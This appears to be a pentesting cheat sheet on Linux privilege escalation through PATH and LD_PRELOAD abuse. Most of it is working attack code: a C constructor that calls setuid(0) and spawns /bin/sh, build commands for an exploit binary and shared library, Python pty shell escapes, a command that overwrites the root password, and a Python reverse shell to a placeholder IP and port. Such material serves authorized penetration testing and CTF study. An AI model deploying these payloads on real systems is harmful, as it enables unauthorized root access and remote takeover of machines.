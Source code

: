 title: Abusing Paths

# C
Using the below shell code we can create a binary that will pop a shell as the user running it. This is useful if we can abuse programs or `sudo` misconfigurations 

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    setuid(0);
    setgid(0);
    execl("/bin/sh", "sh", NULL);
}
```

* To build
```
gcc -o exploit shell.c
```

If `gcc` throws an error `/usr/bin/ld: /usr/lib/gcc/x86_64-linux-gnu/9/../../../x86_64-linux-gnu/Scrt1.o: in function _start: (.text+0x24): undefined reference to main'` then we can use the `-nostartfiles` flag

```
gcc -o exploit shell.c -nostartfiles
```

* To build as shared library 
```
gcc -shared -o exploit.so -fPIC  shell.c
```

Once built we can abuse `LD_PRELOAD` and `PATH`

# Python
Again we can use abuse `LD_PRELOAD` and `PATH` to escalate our privileges via python. 


**Interactive**

If we have a application we can abuse in an interactive way then we use `pty` to drop into a shell.

* write access to script
```
import pty;pty.spawn("/bin/bash")
```

* abuse library paths
```python
"""
"""
import pty
pty.spawn("/bin/bash")
exit()
```

**Non Interactive**

If the script is running under `cron`, `systemd` timers or other means then we will need to get creative.

We could use `os.system` to run a system command, for example if the script run's as root.

```python
import os
os.system("echo -n 'r00tr00t\nr00tr00t' | passwd")
```

Or we could use to get a reverse shell.

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{IP-ADDRESS}",{PORT}));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```